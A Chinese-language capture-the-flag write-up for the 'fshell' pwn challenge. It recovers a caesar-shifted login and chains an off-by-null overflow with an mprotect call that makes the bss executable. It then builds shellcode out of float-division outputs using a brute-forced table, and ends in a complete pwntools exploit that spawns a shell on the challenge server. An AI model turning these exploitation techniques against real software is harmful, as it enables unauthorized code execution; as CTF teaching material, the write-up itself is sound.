


# fshell

> 你知道 IEEE754 吗

## 文件属性

|属性  |值    |
|------|------|
|Arch  |x32   |
|RELRO|Partial|
|Canary|off   |
|NX    |on    |
|PIE   |off   |
|strip |yes   |
|libc  |static|

## 解题思路

和刚打完的上海赛差不多

程序里貌似带了花指令，去花后是菜单题。要做其他操作，需要先login

> 32位程序静态编译还去符号，好多函数一眼都看不出来

login中需要输入用户名和密码，就是2个`strcmp`的事情，用户是`user`，
密码在输入后做凯撒密码，偏移为9，需要注意的是程序初始化时加密了`password`，偏移是8

回到主菜单，发现在输入6时触发了`mprotect`，再看decrypt的语句下面还有一串奇怪的逻辑，跟一下

```c
...
            if ((char)susch == '\0') {
                *(int *)((int)piVar1 + -0x10) = (offset % 0xc + 5) * 0xc;
                *(undefined4 *)((int)piVar1 + -0x14) = 0x804a5a1;
                sus();
            }
 ...
 void sus(int offset) {
 ...
     while ((i < 0x16 && (scan != 0))) {
        scan = scanf("%d",&val);
        calc = (float)((long double)val / (long double)offset);
        if (*(byte *)((int)&calc + 3) < 0x4b) break;
        *(float *)(FUN_08105300 + i * 4) = calc;
        i += 1;
    }
    FUN_08105300();
...
}
```

先回到`main`的逻辑上，输入3输入`offset`，进入`sus`时将`(offset % 0xc + 5) * 0xc`作为参数，
即 **60** ；然后`scanf("%20s", buf)`通过输入20个字符可以触发off-by-null覆写 `susch` 为0，
进入`sus`函数；但是函数`FUN_08105300`在bss上，不可执行，而通过输入6可以mprotect bss为可执行

可以看到`sus`又是除法写shellcode，考虑到正推准确性不足，直接打表

```c
// tab.c
// gcc -o tab -m32 tab.c
#include <stdio.h>

int main(void) {
    int tmp;
    for (int i = 0; i < 4096; i++) {
        char file[20];
        snprintf(file, 20, "data/table%04d", i);
        FILE *tab = fopen(file, "wb");   
        for (int j = 0; j < 1048576; j++) {
            long double x = (long double)((unsigned int)(i << 20) | j)/(long double)60;
            *(float *)&tmp = (float)x;
            fwrite(&tmp, 1, 4, tab);
        }
        fclose(tab);
    }
}
// mkdir data && ./tab
// cd data && cat * > ../table && cd .. && rm -rf data
```

`sus`中还要求输入的shellcode每4个字节中的最后一个字节需要**大于**等于0x46

然后放到ImHex里面爆搜找shellcode，将需要的shellcode的地址除以4（shellcode与4对齐）
便是随后需要输入的数字



先看一眼进入函数时的寄存器布局



原地构造read再把`execve("/bin/sh", 0, 0)`写上去比较好

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './fshell'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh, 'b *0x804a209\nc')
    else:
        sh = remote('pwn-89e38f258e.challenge.xctf.org.cn', 9999, ssl=True)
    elf = ELF(EXE)

    # login first
    sh.sendlineafter(b'@@', b'1')
    sh.sendlineafter(b'username', b'user')
    sh.sendlineafter(b'password', b'ozrrvnqc')

    # mprotect to make bss executable
    sh.sendlineafter(b'@@', b'6')

    # decrypt
    sh.sendlineafter(b'@@', b'3')
    sh.sendlineafter(b'offset', b'0')
    sh.sendlineafter(b'string', b'0'*20) # overflow: off-by-null, trigger sus

    # read(0, 0x8105300, 0x50)
    nums = [0x7B33AA88 // 4,    # push eax; push 0x3; dec ebx
            0xC363B208 // 4,    # pop eax; push 0x50; dec ebx
            0xD073C400 // 4,    # pop edx; pop ecx; pop esi; dec ebx
            0x7863B7A8 // 4,    # pop esi; push 0; dec ebx
            0xF1810A00 // 4,    # pop ebx; int 0x80; dec ebx
            0]                  # exit number input
    for num in nums:
        sh.sendline(str(num).encode())
    sleep(0.5) # wait for shellcode read
    sh.sendline(b'0'*19 + asm(shellcraft.sh()))
    
    sh.clean()
    sh.interactive()
```
